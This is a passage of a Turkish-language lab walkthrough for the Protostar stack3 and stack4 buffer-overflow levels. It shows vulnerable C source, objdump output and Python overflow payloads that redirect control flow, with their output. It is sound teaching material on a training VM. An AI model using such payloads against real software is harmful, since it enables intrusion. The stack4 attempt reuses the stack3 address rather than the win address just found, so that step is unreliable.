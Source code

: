 Burada input verirken dikkat etmemiz gereken şey içerisindeki backslash (`\`) karakteri. Programa direkt olarak inputu verdiğimizde bu karakterleri de text olarak kabul edip yanlış çalışıyor, bunu engellemek için echo komutunu -e parametresi ile çalıştırabiliriz, -e parametresi ile backslash escape fonksiyonu enable ediliyor. Tabii bunun yerine python ile de yapabiliriz.
```bash
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*64 + '\x24\x84\x04\x08'") | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
Bu aşamayı da başarılı bir şekilde tamamladık.

## Stack 4
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Bu aşamada sadece gets ile veri okuyan bir main fonksiyonumuz ve hedefimiz olan win fonksiyonumuz var. Amacımız win fonksiyonunu çağırmak. Bunu yapmak için yine buffer'ı taşırıp win fonksiyonunun adresini bu sefer return adresinin bulunduğu noktaya yazacağız. Stackte lokal değişkenlerin hemen altında pushlanmış ebp değeri ve ardından return adresi bulunmakta. Biz return adresini ezip win fonksiyonunun adresini yazarsak fonksiyondan dönerken bizim win fonksiyonumuza gider ve onun kodlarını çalıştırır.
Win fonksiyonunun adresini bulalım.
```bash
user@protostar:/opt/protostar/bin$ objdump -d stack4 | grep win
080483f4 <win>:
```
Win fonksiyonunun adresi `080483f4` miş. 64 karakter verip ardından bu adresi yazarsak çalışır mı???
```bash
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*64 + '\x24\x84\x04\x08'") | ./stack4
user@protostar:/opt/protostar/bin$ 
```
Çalışmaz, çünkü 64 karakterden sonra return adresine yazamıyoruz. Arada ebp var ve ayrıca compiler da padding için değişiklikler yapmış olabilir. Ne kadar karakterden sonra yazacağımızı bir pattern kullanarak bulabiliriz. Pattern oluşturmak için gdb vs kullanabilirsiniz veya [şuradan](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) faydalanabilirsiniz.
